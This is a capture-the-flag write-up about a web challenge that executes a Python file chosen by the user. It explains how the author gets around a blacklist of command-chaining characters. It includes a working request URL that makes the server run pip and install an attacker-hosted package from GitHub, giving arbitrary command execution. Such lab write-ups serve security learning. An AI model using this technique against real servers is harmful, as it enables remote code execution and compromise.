







We are given a webpage where we can pass in a filename which will get executed by the server.  



This looks like a command injection vulnerability at first, but looking at the source code, all symbols that are used for bash command chaining are blacklisted. We are also required to pass in a python file that already exists.  



We can potentially use the `pip` script to install an external exploit script on the server to be executed later on.  

Looking at the Dockerfile, we notice that the container installs `Python 3.11`. This means that the python script for `pip` will be located at `/usr/local/lib/python3.11/site-packages/pip/__main__.py`.  

We can verify this on the webpage.  



I hosted a custom Python package on github that contains an exploit script that will execute arbitrary bash commands.  



After passing in the `pip` script located, we can then build a command that will pip install our exploit script on the server.  

```
/?/usr/local/lib/python3.11/site-packages/pip/__main__&install&git%2Bhttps://github.com/jeff-160/pyramid-solve.git&-t&.
```



We can then access our exploit script in `/bin/exploit.py` and use it to read `flag`.

